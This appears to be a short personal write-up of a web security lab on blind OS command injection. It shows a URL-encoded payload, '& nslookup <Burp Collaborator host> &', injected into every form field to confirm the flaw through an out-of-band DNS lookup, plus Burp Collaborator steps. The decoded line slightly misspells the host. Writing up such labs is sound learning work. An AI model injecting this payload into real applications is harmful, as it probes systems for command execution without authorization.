 --> In this lab the server is working asynchronously that's why output redirecion or blind command injection will not work but we can make sure the server is vulnerable with the `nslookup` in linux which is command for DNS lookup.

so i tried this payload in every field:

```bash
+%26+nslookup+1kmo91qqog19ve8a2emjskppjgp6dv.burpcollaborator.net+%26
#Which gets decoded into
 & nslookup myCollaboratorServer.burpollaborator.net &
```

--> TO get your burp collaborator server goto `burp(on left top)->collaborator client->click copy to clipboard`

And to get the request instantly click `poll now`

and i got the request and solved the lab!

![](Attachments/Pastedimage20220120123719.png)
